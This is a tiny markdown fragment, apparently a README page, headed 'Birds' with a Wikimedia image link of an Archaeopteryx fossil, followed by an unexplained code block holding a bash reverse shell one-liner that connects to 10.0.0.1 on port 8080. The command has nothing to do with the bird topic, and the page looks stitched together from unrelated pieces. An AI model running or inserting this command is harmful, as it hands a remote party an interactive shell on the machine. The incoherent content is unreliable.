# Birds
![Image of Bird Kingdom](https://upload.wikimedia.org/wikipedia/commons/9/9d/Archaeopteryx_lithographica_%28Berlin_specimen%29.jpg)

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
